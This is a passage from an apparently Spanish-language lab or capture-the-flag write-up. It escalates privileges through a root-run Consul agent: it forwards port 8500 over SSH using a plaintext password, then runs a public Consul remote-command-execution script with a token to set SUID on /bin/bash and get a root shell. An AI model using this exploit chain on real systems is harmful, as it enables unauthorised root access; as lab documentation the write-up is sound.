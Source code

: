 
Si recordamos, vimos una carpeta llamada "consul", si buscamos procesos con ese nombre veremos que root lo está ejecutando, y está corriendo en el puerto 8500 (Esto lo podemos saber por los archivos de configuracion que carga).

```
bash-5.0$ ps -aux | grep "consul"
root        1087  0.4  3.9 795572 78092 ?        Ssl  20:34   0:48 /usr/bin/consul agent -config-dir=/etc/consul.d/config.d -config-file=/etc/consul.d/consul.hcl
```

# Escalada de privilegios

Si buscamos posibles exploits para consul, veremos que hay una forma de tener ejecución remota de comandos.

- https://github.com/owalid/consul-rce

```
$ python3 consul_rce.py 
usage: consul_rce.py [-h] -th TARGET_HOST -tp TARGET_PORT -c COMMAND [-s SSL] [-ct CONSUL_TOKEN]
consul_rce.py: error: the following arguments are required: -th/--target_host, -tp/--target_port, -c/--command
```

Vamos a hacer un Local Port Forwarding, para traernos el puerto 8500 de la máquina víctima a nuestra máquina.

Para eso vamos a conectarnos de nuevo por SSH y vamos a hacer uso del parámetro "-L"

```
ssh developer@10.10.11.183 -L 8500:127.0.0.1:8500
developer@10.10.11.183's password: anEnglishManInNewYork027468
```

Ahora ejecutaremos el exploit y como comando le diremos que haga un "chmod u+s /bin/bash"

```
$ python3 consul_rce.py -th 127.0.0.1 -tp 8500 -ct "bb03b43b-1d81-d62b-24b5-39540ee469b5" -c "chmod u+s /bin/bash"
[+] Check nouziuouulngnlc created successfully
[+] Check nouziuouulngnlc deregistered successfully
```
Perfecto! Si miramos los permisos de la /bin/bash, veremos que es SUID

```
bash-5.0$ ls -l /bin/bash
-rwsr-sr-x 1 root root 1183448 Apr 18  2022 /bin/bash
bash-5.0$ bash -p
bash-5.0# id
uid=1000(developer) gid=1000(developer) euid=0(root) egid=0(root) groups=0(root),1000(developer)
bash-5.0# whoami
root
```
